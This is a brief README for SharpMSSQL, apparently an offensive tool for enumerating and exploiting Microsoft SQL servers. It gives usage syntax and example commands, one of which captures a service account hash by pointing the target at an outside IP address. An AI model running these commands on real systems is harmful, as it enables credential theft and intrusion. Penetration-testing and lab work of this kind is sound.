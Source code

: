 # SharpMSSQL
## Purpose
Just for enumeration and exploitation of some vulns
## Usage
```
.\SharpMSSQL.exe [hostname] [database] [operation]
```
## Example for enum
```
.\SharpMSSQL.exe appsrv01 master enum
```

## Example for grab svc hash
```
.\SharpMSSQL.exe appsrv01 master gethash 192.168.45.195
```
